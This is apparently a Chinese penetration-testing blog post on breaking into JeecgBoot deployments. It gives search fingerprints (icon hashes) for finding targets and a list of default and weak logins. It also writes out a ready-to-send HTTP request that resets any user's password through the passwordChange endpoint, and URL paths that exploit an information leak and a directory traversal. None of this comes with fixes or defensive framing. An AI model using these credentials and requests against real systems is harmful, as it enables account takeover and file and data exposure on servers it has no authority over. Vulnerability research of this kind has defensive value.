 app="JEECG"  
  
icon_hash="1380908726"  
  
icon_hash="-250963920"  
  
  
![1751074165_685f457555c409dcd6741.png!small?1751074165285](https://mmbiz.qpic.cn/sz_mmbiz_jpg/b7iaH1LtiaKWWnhibficl8TfsicnmWibZI9PxHwAicicuNQPdQwOOM3JSOCWT5RaU8lYrxe97JUshLaYX9p2EGIvOvib7tg/640?wx_fmt=jpeg&from=appmsg "")  
## 常见情况  
  
加载动画  
  
![1751074465_685f46a153dfa564857d2.png!small?1751074465213](https://mmbiz.qpic.cn/sz_mmbiz_jpg/b7iaH1LtiaKWWnhibficl8TfsicnmWibZI9PxHEXmVyFAyL5fRelxvVxboRfJblJvV3tbTD6zNPX29onAuHalDK4nkSg/640?wx_fmt=jpeg&from=appmsg "")  
  
![1751074352_685f463098ada0ee7f739.png!small?1751074352654](https://mmbiz.qpic.cn/sz_mmbiz_jpg/b7iaH1LtiaKWWnhibficl8TfsicnmWibZI9PxHMJphMDtkBf2AyibNoMaWzpkMdibKMe87lgMyjsvaWWlXcUibricWFxiapXQ/640?wx_fmt=jpeg&from=appmsg "")  
  
![1751074496_685f46c03fc59e5f87987.png!small?1751074496168](https://mmbiz.qpic.cn/sz_mmbiz_jpg/b7iaH1LtiaKWWnhibficl8TfsicnmWibZI9PxHxf9E7JmIYBicR2HlxjPhvjpfwaJicHDohYZSThr2VppjHlAbPG8icF21w/640?wx_fmt=jpeg&from=appmsg "")  
  
出现一下这几种情况基本可以确定是jeecg-boot,也可以通过接口或者图标等信息进行判定。  
## 常见弱口令漏洞  
> admin/123456  
> jeecg/123456  
> admn/admin  
> test/test  
> demo/test  
> jeecg/jeecg123456  
> guest/guest  
  
  
![1751076190_685f4d5e730f2eaae1882.png!small?1751076190863](https://mmbiz.qpic.cn/sz_mmbiz_jpg/b7iaH1LtiaKWWnhibficl8TfsicnmWibZI9PxHqu5Hbf7YlQoIdlanS1T4iaYdSRibb1qEJ4ho2XmaPQvo7Cic6fPRBwhoQ/640?wx_fmt=jpeg&from=appmsg "")  
## JeecgBoot passwordChange接口任意用户密码重置  
  
GET /jeecg-boot/sys/user/passwordChange?username=admin&password=admin&smscode=&phone= HTTP/1.1  
  
Host:   
  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0  
  
Accept: */*  
  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
  
Accept-Encoding: gzip, deflate, br  
  
Connection: keep-alive  
## jeecg-boot-checkOnlyUser信息泄露漏洞  
> /jeecg-boot/sys/user/querySysUser?username=admin  
>   
> Jeecg-Boot 2.4.5及之前版本存在不安全权限漏洞。攻击者可利用该漏洞通过uri:/sys/user/checkOnlyUser?username=admin提升权限并查看敏感信息。  
  
## jeecg-boot-目录遍历漏洞  
> /jeecg-boot/online/cgform/head/fileTree?_t=1632524014&parentPath=/  
>   
> 低权限账号访问直接返回服务器文件目录信息  
  